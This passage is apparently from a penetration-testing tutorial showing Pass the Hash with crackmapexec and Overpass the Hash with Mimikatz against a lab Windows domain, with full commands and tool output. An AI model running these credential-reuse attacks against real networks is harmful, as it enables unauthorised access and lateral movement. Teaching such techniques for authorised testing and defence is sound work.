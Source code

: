 ### **Pass The Hash**

The Pass the Hash (PtH) technique allows an attacker to authenticate to a remote system or service using a user's NTLM hash instead of the associated plaintext password. Note that this will not work for Kerberos authentication but only for server or service using NTLM authentication.

the hash that we will try

```bash
Muhammad:acbc1d7e615194dfb894cb03e0a9c91f
root@kali: crackmapexec smb 192.168.219.0/24 -u "Muhammad" -H acbc1d7e615194dfb894cb03e0a9c91f --local-auth
SMB         192.168.219.132 445    SPIDERMAN        [*] Windows 10.0 Build 19041 x64 (name:SPIDERMAN) (domain:SPIDERMAN) (signing:False) (SMBv1:False)
SMB         192.168.219.131 445    HYDRA-DC         [*] Windows 10.0 Build 17763 x64 (name:HYDRA-DC) (domain:HYDRA-DC) (signing:True) (SMBv1:False)
SMB         192.168.219.130 445    THEPUNISHER      [*] Windows 10.0 Build 19041 x64 (name:THEPUNISHER) (domain:THEPUNISHER) (signing:False) (SMBv1:False)
SMB         192.168.219.132 445    SPIDERMAN        [+] SPIDERMAN\Muhammad acbc1d7e615194dfb894cb03e0a9c91f 
SMB         192.168.219.131 445    HYDRA-DC         [-] HYDRA-DC\Muhammad:acbc1d7e615194dfb894cb03e0a9c91f STATUS_LOGON_FAILURE 
SMB         192.168.219.130 445    THEPUNISHER      [+] THEPUNISHER\Muhammad acbc1d7e615194dfb894cb03e0a9c91f 
```

![Pass The Hash](https://gblobscdn.gitbook.com/assets%2F-MGT2pXneep03jo0FJjo%2F-MMBOY20_X9iTk49o0V1%2F-MMBVv4UaWyT775Q9OGH%2FPass%20the%20hash.png?alt=media&token=a9bb1839-2d55-4041-9060-675c75bac5dd)


### **Overpass The Hash**

In some cases, if you got the user's hash you may not be able to crack it or use it in pass the hash attack for many reasons. example: disabled NTLM authentication. The essence of the overpass the hash technique is to turn the NTLM hash into a Kerberos ticket and avoid the use of NTLM authentication.let's Assume first that we are on anther machine (SPIDERMAN) as **ppraker** user. and we want to gain access to **fcastle** user only with his NTLM hash. A simple way to do this is again with the **sekurlsa::pth** command from Mimikatz.

```c
mimikatz # sekurlsa::pth /user:fcatle /domain:Marvel.local /ntlm:e2b475c11da2a0748290d
87aa966c327 /run:PowerShell.exe
user : fcastle
domain : Marvel.local
program : cmd.exe
impers. : no
NTLM : e2b475c11da2a0748290d87aa966c327
| PID 4832
| TID 2268
| LSA Process is now R/W
| LUID 0 ; 1197687 (00000000:00124677)
\_ msv1_0 - data copy @ 040E5614 : OK !
\_ kerberos - data copy @ 040E5438
\_ aes256_hmac -> null
\_ aes128_hmac -> null
\_ rc4_hmac_nt OK
\_ rc4_hmac_old OK
\_ rc4_md4 OK
\_ rc4_hmac_nt_exp OK
\_ rc4_hmac_old_exp OK
\_ *Password replace -> null

```
Now, we have a new PowerShell session that allows us to execute commands as **facstle**. So let's make any kerberos connection to cache our TGT ticket.
